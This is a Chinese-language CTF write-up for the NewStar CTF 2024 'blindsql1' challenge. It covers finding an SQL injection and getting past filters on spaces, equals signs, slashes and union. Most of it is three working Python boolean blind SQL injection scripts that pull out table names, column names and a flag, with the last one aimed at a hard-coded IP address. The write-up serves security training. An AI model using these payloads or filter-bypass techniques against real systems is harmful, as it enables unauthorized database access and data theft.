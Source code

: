 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# blindsql1

能够根据姓名查询成绩

![正常查询](/assets/images/wp/2024/week3/blindsql1_1.png)

加入单引号时，查询失败，说明存在注入

![存在注入](/assets/images/wp/2024/week3/blindsql1_2.png)

尝试Alice' or 1=1# （注意#号要url编码成%23）时，提示空格被禁用了。

![空格被禁用](/assets/images/wp/2024/week3/blindsql1_3.png)

多次尝试，会发现union和等于号，斜杠都被禁用了。

union被禁用，说明此时该使用盲注，我们能够通过插入 and 1 或者 and 0 来控制是否返回数据，由此可以使用布尔盲注。

等于号可以使用like或者in代替

空格和斜杠被禁用可以使用括号代替

爆破表名

```python

import requests,string,time

url = ''

result = ''
for i in range(1,100):
    print(f'[+]bruting at {i}')
    for c in string.ascii_letters + string.digits + '_-{}':
        time.sleep(0.2) # 限制速率，防止请求过快

        print('[+]trying:',c)

        # 这条语句能查询到当前数据库所有的表名
        tables = f'(Select(group_concat(table_name))from(infOrmation_schema.tables)where((table_schema)like(database())))'

        # 获取所有表名的第i个字符，并计算ascii值
        char = f'(ord(mid({tables},{i},1)))'

        # 爆破该ascii值
        b = f'(({char})in({ord(c)}))'

        # 若ascii猜对了，则and后面的结果是true，会返回Alice的数据
        p = f'Alice\'and({b})#'

        res = requests.get(url,params={'student_name':p})
        
        if 'Alice' in res.text:
            print('[*]bingo:',c)
            result += c
            print(result)
            break
```

爆破secrets表的列名

```python

import requests,string,time

url = ''

result = ''
for i in range(1,100):
    print(f'[+]bruting at {i}')
    for c in string.ascii_letters + string.digits + ',_-{}':
        time.sleep(0.01) # 限制速率，防止请求过快

        print('[+]trying:',c)

        tables = f'(Select(group_concat(column_name))from(infOrmation_schema.columns)where((table_name)like(\'secrets\')))'

        char = f'(ord(mid({tables},{i},1)))'

        # 爆破该ascii值
        b = f'(({char})in({ord(c)}))'

        # 若ascii猜对了，则and后面的结果是true，会返回Alice的数据
        p = f'Alice\'and({b})#'

        res = requests.get(url,params={'student_name':p})
        
        if 'Alice' in res.text:
            print('[*]bingo:',c)
            result += c
            print(result)
            break
```

爆破flag

```python

import requests,string,time

url = 'http://47.104.11.21:31011'

result = ''
for i in range(1,100):
    print(f'[+]bruting at {i}')
    for c in string.ascii_letters + string.digits + ',_-{}':
        time.sleep(0.01) # 限制速率，防止请求过快

        print('[+]trying:',c)

        tables = f'(Select(group_concat(secret_value))from(secrets)where((secret_value)like(\'flag%\')))'

        char = f'(ord(mid({tables},{i},1)))'

        # 爆破该ascii值
        b = f'(({char})in({ord(c)}))'

        # 若ascii猜对了，则and后面的结果是true，会返回Alice的数据
        p = f'Alice\'and({b})#'

        res = requests.get(url,params={'student_name':p})
        
        if 'Alice' in res.text:
            print('[*]bingo:',c)
            result += c
            print(result)
            break
```
